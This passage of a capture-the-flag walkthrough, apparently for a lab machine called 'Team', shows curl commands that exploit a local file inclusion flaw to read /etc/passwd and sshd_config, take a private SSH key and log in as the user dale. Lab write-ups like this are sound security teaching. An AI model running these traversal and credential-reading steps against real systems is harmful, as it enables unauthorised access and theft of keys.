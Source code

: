 ![0b597ad2f66c81a61f4d2ef578a86acd.png](/resources/b5787a0b88334f4bb930137754ade976.png)

### \[-] dev.team.thm/script.php?page=teamshare.php

It looks like `script.php` is being used to load `teamshare.php` via the `page` parameter:

![87284a7a4fdc780ac9096be401c97e89.png](/resources/455a621873884f5e9bf8d666ae940fc5.png)

Instead of loading `teamshare.php`, let's try Local File Inclusion (LFI) to browse other areas of the machine, like `/etc/passwd`:

```sh
curl -vvv dev.team.thm/script.php?page=../../../../../../etc/passwd
```

![0ebb7128c96e8d6bad2d7070f5d55770.png](/resources/7a08ec44bad1481595e9f2d0e2262e00.png)

Now that we know we can browse the machine via LFI, we can try to see if we can access the `/etc/ssh/sshd_config` file which might contain SSH keys:

```sh
curl -vvv dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

Towards the end of the file we will find the SSH key for Dale Gyles:

![9fd5d1c17658acd3f780910fcd43b7ab.png](/resources/441428fb767543dfab9de3cea22b8c6e.png)

Highlight starting from `#-----BEGIN OPENSSH PRIVATE KEY-----` to `#-----END OPENSSH PRIVATE KEY-----` then save this to a text file and remove the `#` symbols. Next, use `chmod` to give the key proper permissions before connecting via SSH:

```sh
chmod 600 id_rsa
```

## Port 22 - SSH

### \[-] dale\@TEAM

We can use the [ssh](https://linux.die.net/man/1/ssh) command along with the `-i` flag to specify our SSH key file:

```sh
ssh -i id_rsa dale@team.thm
```

![b14fae0ec1c2ca803cdd18458bfc45dc.png](/resources/45803f6248094b01b930e58121385d7d.png)

The user flag is in `/home/dale/user.txt`:

```sh
ls -lah
cat /home/dale/user.txt
```

![8c0aa49ed4e2bd70d9c73f5b0b4ba837.png](/resources/b596ec19065f46289497c3dd1199bbcd.png)
